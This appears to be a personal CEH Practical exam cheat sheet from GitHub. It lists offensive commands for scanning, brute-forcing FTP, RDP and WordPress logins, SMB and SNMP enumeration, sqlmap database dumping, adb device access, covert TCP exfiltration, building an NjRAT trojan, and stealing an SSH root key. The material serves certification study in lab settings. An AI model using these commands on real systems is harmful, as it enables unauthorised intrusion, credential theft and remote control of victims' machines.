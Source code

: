 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
#Phases
##1.	Network Scanning & Vulnerability Assessment
###•	Find Live hosts (nmap /netdiscover)
	Sudo nmap [IP address] – for exam (CEH Practical)
o	Sudo nmap –sC –sV –v –A –p– –O –T4 [IP Address range] – more aggressive deep scanning
o	Sudo nmap –sV –script vuln [IP Address] – finding vulnerabilities in a host (-oX save file)
o	Sudo nmap –sP 192.168.1.*:- when scanning a large network

###•	Find open ports & services running on those ports (nmap)
	Sudo nmap –sC –sV –v –p– –T4 [IP Address range]
##2.	Enumeration
###•	ftp port 21 – used to transfer files between computers (file sharing)
o	check IP to see which is running ftp
	nmap –sC –p 21 [IP address]
o	ftp [IP] :- you need to bruteforce the password login credentials using hydra tool
	hydra –L username.txt –P password.txt [IP address] ftp (  the lists of password & usernames are given in the exam)
	login ftp [IP address]
o	enter password and username from the one that you brute forced
o	ftp>ls
o	ftp> get secret.txt (used to download the file into your local machine)
o	root@attacker:~#ls
o	root@attacker:~#cat secret.txt (to view the file contents)

###•	SNMP port 161– used to monitor and manage network devices e.g. routers, switches, servers etc.
o	Nmap –sP [IP /24]
o	Nmap –sU [IP Address] (scan for UDP ports on the target machine) 
o	snmp-check [ip address] NB take note of the UDP port to listen to)
o	check NSE scripts online on nmap.org
o	nmap –sU –p 161(UDP port) –script=snmp-processes [IP Address] ( finding running process using nmap
o	msfconsole (start Metasploit to find valid strings)
o	msf5>search snmp
o	msf5>use auxiliary/scanner/snmp/snmp_login
o	msf5 auxiliary(scanner/snmp/snmp_login)> show options
o	msf5 auxiliary(scanner/snmp/snmp_login)>set RHOSTS [IP Address]
o	msf5 auxiliary(scanner/snmp/snmp_login)>exploit
###•	SNMP check interfaces
o	nmap –sU –p 161(UDP port) –script=snmp-interfaces [IP Address] ( finding running process using nmap
o	snmp-check [IP address]
###•	SMB Enumeration (SMB request services from server programs, it’s a protocol that allows apps on a computer read/write files)
o	Nmap [target IP] (smb running on port 445)
o	Nmap –p 445 --script smb-enum-shares [IP address] (enumerating files) shares files with details permissions
o	Connecting GUI method (smb://[IP] on web)
o	Nmap –p 445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating users)
o	Nmap –p 445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating groups)
o	Nmap –sC –sV –A –T4 –p445 [IP Address] (enumerating security levels)
o	Nmap –p 445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating services)
o	
###•	Making an RDP session and Enumerate RDP service
o	Nmap [Ip address] port 3333 or 3389 is for RDP
o	Msfconsole
o	msf5> search rdp
o	msf5>use auxiliary/scanner/rdp/rdp_scanner
o	msf5 auxiliary(scanner/rdp/rdp_scanner)> set RHOSTS [target IP]
o	msf5 auxiliary(scanner/rdp/rdp_scanner)>set RPORT 3333
o	msf5 auxiliary(scanner/rdp/rdp_scanner)>exploit (detected rdp on ….. confirmed rdp is running)
o	hydra –L {path} –P{path} rdp://[IP address] –s 3333 (brute force passwords & save them)
o	root@attacker:~# xfreerdp /u:administrator /p:etcect /v:[ip]:3333(create an rdp session) 
###•	Enumerate NetBIOS port 137(UDP: TCP)/138(UDP)/139(TCP) facilitates and allows computer to connect over the local network, access files & resources such as printers & files
o	Check ip first by ip a
o	Nmap –sP [IP address]
o	Nmap –sV --script nbstat.nse [IP address]

##3.	Hacking Web Application & Android 
###•	Wpscan
o	Wpscan in Kali Linux Wpscan –h will show you all the commands you can use
o	Wpscan –url [copy url http://192.168.0.1] --enumerate u  (u for users) 
o	Wpscan –url (or just –u for url) [copy url http://192.168.0.1] --enumerate u vp (vp for vulnerable plugins & u for users) 
o	Sudo Wpscan --password-attack xmlrpc –t 20 –U (usernames) –P (password list)  --url http://[IP] --random-user-agent (if necessary)- bruteforce for passwords
###•	Sqlmap for sql injections–Using DVWA website
o	Go to command execution
o	Enter an IP address and submit :- [IP] | pwd to see the directory that I am
o	UserID enter 1
o	Open burp Suite
o	Go to terminal in parrot : sqlmap –r req.txt –dbs the file is in desktop
o	Sqlmap –r req.txt –D dvwa ( name of the data base )
o	Sqlmap –r req.txt –D dvwa --tables --columns   ( Details )
o	Sqlmap –r req.txt –D dvwa --dump (contents of the tables)
###•	Burp Suite
o	Check on http requests and proxy (use this to save  cookies as req.txt)
•	Android Pentest (ADB) – a tool that bridge the communication between your device and computer ( use windows)
o	‘adb devices’ command will show you all the devices connected
o	adb connect [IP address]:5555 ( just give any port) 
o	adb shell ( you are in the device )
o	hit ls to see where you are in the device
o	cd sdcard/
o	cat secrete.txt
##4.	Traffic Sniffing
###•	Wireshark
Pcap analysis – Filtering packets
o	tcp.flags.syn
o	Follow streams red part is our request and the blue part is the server response
o	To see if there is a txt file – export object got to file, export object of http and save it 
(DOS, DDOS)
##5.	Steganography
###•	SNOW – for hiding and extracting hidden data from a text file
o	Open SNOW.EXE (NB. you have to write in uppercase)–C (compile) –m “this is the secret message” –p ‘’give the password any’’ Secret.txt (this is the secrete file) Hiddensecret.txt (is the file you want to be the output)
o	To extract the hidden file-: SNOW.EXE –C -p “given password any” Hiddensecret.txt and then hit enter.
###•	OpenStego – for hiding and extracting hidden data from an image file
o	Open the OpenStego tool
o	There 2 options, Hiding data and extracting the secret
o	Follow options-: they are self-explanatory
o	When extracting data the same. In an exam you can be told to extract a file and you will find a key. Open hashes.com on browser and then retrieve the key
###•	Covert – for hiding data in TCP/IP packet headers
o	Download covert_tcp file in parrot
o	Cd Downloads
o	Then ~/Downloads/Covert_tcp $ ls there will be 3 files covert_tcp, covert_tcp.c & secret.txt and then-: rm covert_tcp to remove it in parrot
o	Enter a command: cc –a covert_tcp covert_tcp.c 
o	  ./covert_tcp  –source [IP Addrr e.g. 192.168.1.1] ( source Ip)  –dest [IP Addrr] (destination IP) –source_port 9999 ( set any port) –dest_port 8888 –file secret.txt  -: this is done from source computer
o	./covert_tcp  –source [IP Addrr: 192.168.1.1] ( source Ip)  -source_port 8888 –server –file receive.txt (received file as)
##6.	Cryptography – practice of securing information so that it’s only accessible to authorised users only. The goal is to protect sensitive information
###•	HashMyfiles - calculating and comparing hashes of files
o	Open the tool 
o	Drag and drop the files to the HashMyfiles application
o	The change in the background colour may mean that the data has been tempered with or the data in the files is the same
###•	Cryptool – encrypting and decrypting of hex data – by manipulating key length
o	Open the app and open file
o	Go to analysis and then symmetric – RC4, a window pops up change the key length maybe to 16bit depends with the qns
###•	BCTextEncoder -  encoding and decoding text in file .hex 
o	Open the app
o	Enter passwords to encode the text to hex format
o	To decrypt the hash go to hashes.com online and paste the hash key
###•	Crypto Forge – encrypting and decrypting the files
o	Select file & right click
o	Select encrypt. To decrypt the hash go to hashes.com online and paste the hash key
###•	Veracrypt – hiding and encrypting the disk partitions
o	Open app and hit create volume option
o	Create an encrypted file container
o	Hidden volume then normal mode then next & select folder then C:\ then file name NB mouse hover hover
o	Go to  App, select mount to retrieve information of the hidden partition, this is do  
##7.	RAT – Remote Access Trojans (ProRat & NjRAT) 
o	If you try and you are getting a response “no connection” it means maybe you have chosen the wrong machine to target or he port you have selected is the wrong one. Or the server is of different tool and you are using a different tool.
o	Using ProRat you open it using attacker machine using the IP address of the victim machine use the default port
o	Click connect and insert password. The password is provided if ProRat is used but if there is no password it means you use either HTTP RAT or NjRAT and you brute force.
o	Click on search files, copy the location and download the file.
o	You can make use of the File Manager option that is GUI
USING NjRAT
o	Using windows 11 as attacker and windows server as victim
o	Use the same default port and click start
o	Click on builder and provide the IP of the attacker machine on the host 
o	Click build and it will create server.exe file and save it e.g. on desktop
o	Share the file on the share folder (Desktop)then go to the server victim machine
o	Run the .EXE file 
o	Switch back to attacker ,machine and you can see the session has been opened 
o	You can right click on the session and use even RDP 
##8.	Privilege escalation
o	ssh user1@[IP Addrr] –p(port) hit Y to agree and then enter the password you are provided or use hydra to brute force the password
o	If you hit the command whoami it shows you the user
o	 Sudo –L it shows you which users are there 
o	Go to the desired directory and do ls then it shows you the file, if you hit cat flag.txt you want to retrieve info in the file
o	Sudo –u user2 /bin/bash now you are logged in as user2 then go to the desired directory
o	This is horizontal privilege escalation
Escalate to root user
o	ls la shows all users
o	cd /root (access denied)
o	cd .ssh
o	ls
o	cat id_rsa you get ssh private key an copy 
o	nano id_rsa and then paste the key (in our local machine)
o	chmod 600 id_rsa (give permission to this file)
o	ssh root@[target IP] –p (port) –i  id_rsa
o	ls 
o	cat flag.txt
Nikto- nikto –h http://[IP Address]:80 (you can run on port 80)

